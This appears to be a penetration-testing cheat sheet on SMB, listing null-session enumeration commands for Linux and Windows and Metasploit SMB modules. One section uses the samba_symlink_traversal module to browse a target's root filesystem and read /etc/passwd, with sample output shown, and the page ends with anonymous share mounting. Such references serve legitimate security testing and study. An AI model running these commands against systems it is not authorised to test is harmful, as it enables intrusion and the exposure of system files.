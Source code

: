 #### from linux

```
smbmap -H [ip/hostname]
rpcclient -U "" -N [ip]
smbclient \\\\[ip]\\[share name]
```

#### from windows

```
NET USE \\[target IP address]\IPC$ '' /u:''
net use \\10.130.40.80\IPC$ '' /u:''
```

This tells Windows to connect to the IPC$ share by using an empty password and an empty username!

### metasploit modules

```
use auxiliary/scanner/smb/smb_enumshares
use auxiliary/scanner/smb/smb_enumusers
use auxiliary/scanner/smb/smb_version
```

#### gain access to smb shares

```
use auxiliary/admin/smb/samba_symlink_traversal
set SMBSHARE tmp
exit
smbclient //192.168.99.131/tmp
smb: \> cd rootfs
smb: \rootfs\> cd etc
smb: \rootfs\etc\> more passwd
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
[..]
```

## Mounting Shares From Linux

```
mount.cifs /192.168.99.162/C /media/K_share/ user=,pass=
nmblookup -A target
smbclient //MOUNT/share -I target -N
rpcclient -U “” target
```
